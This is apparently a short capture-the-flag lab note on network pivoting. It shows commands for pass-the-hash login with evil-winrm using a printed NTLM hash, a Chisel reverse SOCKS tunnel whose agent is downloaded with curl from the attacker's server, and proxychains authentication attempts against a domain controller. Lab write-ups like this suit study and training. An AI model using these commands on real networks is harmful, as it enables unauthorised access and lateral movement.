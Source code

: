 # Pivoting

## Access to the Pivot Machine as Admin

{% code overflow="wrap" %}
```bash
evil-winrm -i wrk.tryhackme.loc -u 'Administrator' -H 'e75f25c6788a558e4f3f49714ed95e41'
```
{% endcode %}



## Chisel pivoting setup

### Set Proxy in attacker machine

{% code overflow="wrap" %}
```bash
chisel server --port 8000 -reverse
```
{% endcode %}



### Start Agent in pivot machine

Download the agent from malicious server

```
curl http://10.250.1.6/chisel_1.10.1_windows_amd64 -o chisel.exe

.\chisel.exe client 10.250.1.6:8000 R:socks
```



Try to authenticate to DC.

```bash
proxychains nxc smb 10.200.150.10 -u "gg" -p 'ii'
```

<figure><img src="../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

The pivot works.
